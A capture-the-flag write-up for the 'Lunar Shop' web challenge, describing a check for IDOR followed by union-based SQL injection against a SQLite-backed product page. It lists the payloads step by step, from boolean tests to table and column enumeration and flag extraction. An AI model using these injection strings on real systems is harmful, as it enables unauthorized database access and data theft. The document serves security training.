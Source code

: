 #### Lunar Shop
- points earned: 10 

#### Notes
- clicking on one of the products at `/products` brings you to a url like `https://meteor.sunshinectf.games/product?product_id=1`
- I first manually checked for IDOR by substituting `1` for numbers in the range `1-11`.  No products are returned above 11.
- Before scripting something to go further on the IDOR I checked for SQLI.
- using something like `?product=1'` gives me an error. `[ Error occured. --> unrecognized token: "';" ]`
- Using something like `?product_id=1 or 1=1-- ` returns a single result.
- Using something like `?product_id=1 and 1=0-- ` returns no results.
- Using something like `0 union select 1,2,3,4--` returns a single result with `1`, `2`, `3`, and `4` in the expected places.
- This confirms SQLI and indicates that the page will only show 1 result.

#### Solution
- `?product=0 union select sqlite_version(),2,3,4-- ` returns a version which tells me that this is an sqlite DB.
- `?product=0 union select tbl_name,2,3,4 from sqlite_master where type='table'-- ` returns a single table `flag`.
- `?product=0 union select group_concat(name),2,3,4 from pragma_table_info('flag')-- ` returns 2 column names `id` and `flag`
- `?product=0 union select flag,2,3,4 from flag-- `reveals the flag.